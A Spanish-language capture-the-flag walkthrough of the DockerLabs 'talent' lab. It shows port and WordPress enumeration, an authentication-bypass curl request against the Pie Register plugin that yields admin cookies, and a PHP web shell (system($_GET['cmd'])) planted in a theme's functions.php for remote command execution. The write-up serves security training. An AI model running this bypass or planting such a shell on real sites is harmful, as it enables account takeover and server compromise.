## mONTAJE DE LA MÁQUINA VULNERABLE

Descargamos desde `https://dockerlabs.es/` la máquina talent, es un zip.
Con `unzip talent.zip` lo descomprimimos, nos descomprime dos archivos que ejecutando lo siguiente nos monta la máquina en un docker:
```bash
sudo bash auto_deploy.sh talent.ta
```





En este punto, si no está actualizada la máquina hacemos lo siguiente:

```bash
sudo docker container ls  "necesitareis el id del container"
sudo docker exec -it <ID del container> bash -c 'apt update -y'
sudo docker exec -it <ID del container> bash -c 'apt install python3 -y'
```




# FASE DE ENUMERACÓN E INTRUSIÓN

Empezamos enumerando los puertos  abiertos y que servicios corren por ellos así como sus versiones por si son vulnerables:


```bash
 sudo nmap -sS -sCV --open -p- --min-rate 5000 172.17.0.2 -vvv -oN nmap
```







Vemos un único puerto abierto el 80, y podemos ver que se trata de un `WordPress 6.9.1`, antes de ir a la web vamos a enumerar el wordpress y sus plugins con wpscan:

```bash
wpscan --url http://172.17.0.2 --enumerate p
```







Vamos un plugin llamado `pie-register` en una versión `3.7.1.0` desactualizada, vamos a ver si hay algún exploit para este plugin,
y encontramos uno prometedor en esta URL `https://www.exploit-db.com/exploits/50395`





Lo único es que habrá que ajustarlo y lanzamos un curl:

```bash
curl -i -s -X POST http://172.17.0.2/ -d "user_id_social_site=1&social_site=true&piereg_login_after_registration=true&_wp_http_referer=/login/&log=null&pwd=null"
```


Esto nos ha devuleto unas cookies de sesión, asi pues nos toca it a la URL de la víctima. 
Antes miramos un poco por si vemos algo interesante y vemos esto que nos apuntamos:




Toca hacer unos cambios en la URL la dejamos así: `http://172.17.0.2/wp-admin` sin ejecutarla, abrimos la herramienta de 
desarrollador con `F12`--->nos vamos a `storage`---> y buscamos las cookies

Ahora añadimos las cookies que nos dió el exploit, las dos que ponen `wp-admin` y una vez añadidas damos al enter de la URL y nos lleva al panel del administrador.







Una vez dentro, vamos a cambiar algún php para poder inyectar comandos, nos acordamos del `Twenty Twenty-Five` que vimos y nos vamos a:

Tools--->Theme file editor
Una vez ahí nos aseguramos en la parte derecha de tener seleccionado `Twenty Twenty-Five` y debajo buscamos y seleccionamos `functions.php`




Al final añadimos `system($_GET["cmd"]);` y damos a `Update file`




En teoría wordpress empieza a cargar cosas y esta se carga en la página principal, vamos a ver si funciona, nos vamos a la página principal y
probamos si podemos inyectar comandos:
```bash
http://172.17.0.2/?cmd=id
```




Tenemos ejecución remota de comandos.
